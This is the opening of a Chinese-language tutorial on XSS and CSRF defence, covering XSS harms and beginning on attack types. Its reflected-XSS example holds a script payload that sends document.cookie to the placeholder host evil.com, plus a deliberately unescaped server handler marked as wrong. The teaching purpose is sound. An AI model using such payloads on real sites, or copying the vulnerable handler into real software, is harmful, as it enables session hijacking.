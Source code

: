 ```yaml
---
layout: doc
title: XSS与CSRF防御最佳实践
description: 全面解析XSS与CSRF攻击原理、防御机制与前后端最佳实践，助你构建安全的Web应用。
---
```


# XSS与CSRF防御最佳实践

XSS（跨站脚本攻击）与CSRF（跨站请求伪造）是Web安全的两大高发威胁。本文将系统讲解其原理、防御机制与前后端最佳实践。

## 目录

- [XSS攻击原理与类型](#xss攻击原理与类型)
- [XSS防御机制与实践](#xss防御机制与实践)
- [CSRF攻击原理与危害](#csrf攻击原理与危害)
- [CSRF防御机制与实践](#csrf防御机制与实践)
- [前后端协同安全建议](#前后端协同安全建议)

## XSS攻击原理与类型

XSS（Cross-Site Scripting）攻击指攻击者将恶意代码注入到网页中，当用户浏览该页面时，恶意代码会在用户的浏览器上执行。

### XSS攻击的危害

XSS攻击可能导致以下危害：

- 窃取用户Cookie或会话信息，实现身份劫持
- 修改DOM结构，实施钓鱼或欺骗
- 监控用户输入，获取敏感信息（如键盘记录）
- 执行恶意网络请求，如CSRF攻击
- 破坏网页内容，损害网站信誉
- 劫持用户浏览器，实现DDoS攻击

### XSS攻击类型

#### 1. 反射型XSS

攻击代码包含在请求中，服务端未过滤即返回给浏览器：

```js
/**
 * 反射型XSS攻击示例
 */
function reflectedXssExample() {
  // 恶意URL示例
  const maliciousUrl = 'https://example.com/search?q=<script>fetch("https://evil.com/steal?cookie="+document.cookie)</script>';
  
  // 服务端未过滤直接输出到HTML(错误示例)
  function vulnerableServer(req, res) {
    const query = req.query.q;
    res.send(`
      <h1>搜索结果: ${query}</h1>
      <div>没有找到相关内容</div>
    `);
  }
}
```
